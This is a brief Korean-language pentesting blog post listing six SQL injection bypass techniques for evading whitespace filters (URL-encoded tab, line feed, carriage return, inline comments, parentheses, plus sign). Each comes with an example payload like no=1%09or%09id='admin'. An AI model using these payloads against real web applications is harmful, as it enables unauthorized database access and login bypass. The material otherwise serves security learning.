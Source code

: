 ```yaml
---
toc_sticky: true
layout: single
title: "SQL Injection 우회기법"
categories: Pentest
tag: [Web, SQL Injection, Pentesting]
toc: true
toc_sticky: true
toc_label: 목차
author_profile: false
---
```


## 1️⃣ SQL Injection 우회기법



### 📜****SQL Injection 공격시 공백 문자 필터링시 우회 방법****



1. Tab : %09

 \- no=1%09or%09id='admin'

 

2. Line Feed (\n): %0a

 \- no=1%0aor%0aid='admin'

 

3. Carrage Return(\r) : %0d

 \- no=1%0dor%0did='admin'

 

4. 주석 : /**/

 \- no=1/**/or/**/id='admin'

 

5. 괄호 : ()

 \- no=(1)or(id='admin')

 

6. 더하기 : +

 \- no=1+or+id='admin'
